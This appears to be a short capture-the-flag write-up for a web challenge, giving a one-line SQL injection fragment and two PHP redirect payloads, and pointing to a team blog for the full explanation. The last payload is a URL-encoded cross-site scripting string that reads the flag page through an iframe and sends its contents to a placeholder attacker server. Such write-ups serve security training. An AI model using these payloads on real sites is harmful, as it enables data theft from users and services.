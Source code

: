 **Short Solution:** 
 - For SQLI: `lcase('inKypinKy') as id from dual`
 - Creating UID: Host a webpage that has the following php code `header("location:http://web/user.php?session=1111-22222-1234&sub=submit%22);`
 - Retrieving Flag: Host a webpage that has the following php code `header("location:http://web/flag.php?session%3D%22%3E%3Ciframe+id%3D%22a%22+src%3D%22http%3A%2F%2Fweb%2Fflag.php%3Fsession%3D1111-22222-1234%26sub%3Dsubmit%22+onload%3Dwindow.location%3D%22<your_server>%3F%22%2Bbtoa%28document.getElementById%28%27a%27%29.contentWindow.document.body.innerText%29%3E%26sub%3Dsubmit%22%29%3B`
 
 **Explained Solution**
  - Visit [blog.bi0s.in](https://blog.bi0s.in/)
